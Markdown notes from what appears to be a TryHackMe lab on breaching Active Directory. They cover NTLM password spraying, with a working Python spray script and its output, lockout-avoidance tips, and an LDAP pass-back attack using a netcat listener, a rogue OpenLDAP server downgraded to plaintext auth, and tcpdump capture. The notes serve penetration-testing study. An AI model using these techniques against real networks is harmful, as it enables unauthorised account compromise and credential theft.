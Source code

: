 This is the first step, to get a first set of credentials, even a low privileged is sufficient
  - We can recover AD credentials targeting internet facing system, or rogue device using tools like:
     - NTLM Authenticated Services
     - LDAP Bind credentials
     - Authentication Relays
     - Microsoft Deployment Toolkit
     - Configuration Files

- Configure DNS:  systemd-resolve --interface breachad --set-dns $THMDCIP --set-domain za.tryhackme.com

### OSINT and Phishing
- Open Source Intelligence: discover publicly disclosed information like stackoverflow, Github; HaveIBeenPwned, DeHashed (Websites which discloses publicly known data in breach)
- Phihing involves users providing their credentials on a malicious web page abd ask tem to run RAT (Remote Acess Trojan).

<details> 
<summary> 1. NTLM Authenticated Services </summary>
  
- New Technolgy Lan Manager (NTLM) is suite of security protocals used to authenticate user's identities in AD.
- It uses challenge-response-based scheme called NetNTLM / Windows Authentication / NTLM Authentication.
  - NetNTLM can be exposed to internet sometimes. Some examples are below:
  - Internal hosted Exchange (Mail) servers exposed to Outlook web App (OWA) login portal
  - RDP sevice exposed to internet
  - VPN endpoints integrated with AD are exposed
  - Internet facing Web apps usinf NetNTLM
- Application is authenticating on behalf of user, but not authenticating user directly. This prevents storing of AD credentials.
![image](https://github.com/Vamckis/Container-Security/assets/71128825/8e92fe08-ff89-4316-af32-3deafb5b2398)

#### Brute-force Login attacks:
- Tip: Insted of using one username and multiple passwords, use one password and multple usernames. This will avoid user acount lock.
- Normally Organisation first password wouldbe "Changeme123"

#### Password Spraying:

``` 
python ntlm_passwordspray.py -u <userfile> -f <url = za.tryhackme.com> -p <password = Changeme123> -a <attack url = http://ntlmauth.tryhackme.com>
```
```
# ntlm_paswordspray.py - Python Script for password spraying attack
def password_spray(self, password, url):
    print ("[*] Starting passwords spray attack using the following password: " + password)
    #Reset valid credential counter
    count = 0
    #Iterate through all of the possible usernames
    for user in self.users:
        #Make a request to the website and attempt Windows Authentication
        response = requests.get(url, auth=HttpNtlmAuth(self.fqdn + "\\" + user, password))
        #Read status code of response to determine if authentication was successful
        if (response.status_code == self.HTTP_AUTH_SUCCEED_CODE):
            print ("[+] Valid credential pair found! Username: " + user + " Password: " + password)
            count += 1
            continue
        if (self.verbose):
            if (response.status_code == self.HTTP_AUTH_FAILED_CODE):
                print ("[-] Failed login with Username: " + user)
    print ("[*] Password spray attack completed, " + str(count) + " valid credential pairs found")
```

```
NTLM Password Spraying Attack
[thm@thm]$ python ntlm_passwordspray.py -u usernames.txt -f za.tryhackme.com -p Changeme123 -a http://ntlmauth.za.tryhackme.com/
[*] Starting passwords spray attack using the following password: Changeme123
[-] Failed login with Username: anthony.reynolds
[-] Failed login with Username: henry.taylor
[...]
[+] Valid credential pair found! Username: [...] Password: Changeme123
[-] Failed login with Username: louise.talbot
[...]
[*] Password spray attack completed, [X] valid credential pairs found
```

- We can have first pair of credentails by OSINT + NetNTLM password spraying
  
</details>

<details>
    <summary>2. LDAP Bind Credentials</summary>

- LDAP (Lightweight Directory Access Protocol) is similar to NTLM, but application directly uses user's credentails.
- Third paty apps which are integarted to AD uses LDAP (like Gitlab, Jenkins, VPNs, Printers)

![image](https://github.com/Vamckis/Container-Security/assets/71128825/8c9a057a-ce2f-4302-8582-7044b1c03756)

#### LDAP Pass-back Attacks:
- It can be performed when we gain access to device / printer configuration, where LDAP parameters are specified.
- Performing LDAP Pass-back:
  - e.g: There is a printer in network, where admin websited doesnot need credentials.
![image](https://github.com/Vamckis/Container-Security/assets/71128825/3c77c949-b2e6-4c14-b053-a919fbc3a913)
  - Press on "Test Settigs" link, printer will make authentication request to Domain Controller to test LDAP credentials.  

![image](https://github.com/Vamckis/Container-Security/assets/71128825/d78f1e62-70ef-4cf4-b561-11a35f1255ec)

  - we can listen to port 389 (default port for printer)
```
nc -lvp 389
```
  - If printer user secure autentication method, we wont be able to see credentials. In this case, we have to host a rogue LDAP server.

- Hosting a Rogue LDAP Server:
  - use OpenLDAP to host rogue LDAP server

```
sudo apt-get update && sudo apt-get -y install slapd ldap-utils && sudo systemctl enable slapd
```
  - Downgrade LDAP server to support only PLAIN and LOGIN authentication methods. So that we can see printer authentication traffic.
    - for this, need to create new ldif file with below content:

```
#olcSaslSecProps.ldif
dn: cn=config
replace: olcSaslSecProps
olcSaslSecProps: noanonymous,minssf=0,passcred
```
  - The file has the following properties:
     - olcSaslSecProps: Specifies the SASL security properties
     - noanonymous: Disables mechanisms that support anonymous login
     - minssf: Specifies the minimum acceptable security strength with 0, meaning no protection.

  - patch LDAP server with ldif file:
```
sudo ldapmodify -Y EXTERNAL -H ldapi:// -f ./olcSaslSecProps.ldif && sudo service slapd restart
```
- Capturing LDAP Credentails:
  - Click on Test settings and Get TCP dump, which will be in plain text due to vulnerable rogue server settings.
```
sudo tcpdump -SX -i breachad tcp port 389
```
</details>

<details>
<summary>Authentication Relays</summary>
  
</details>
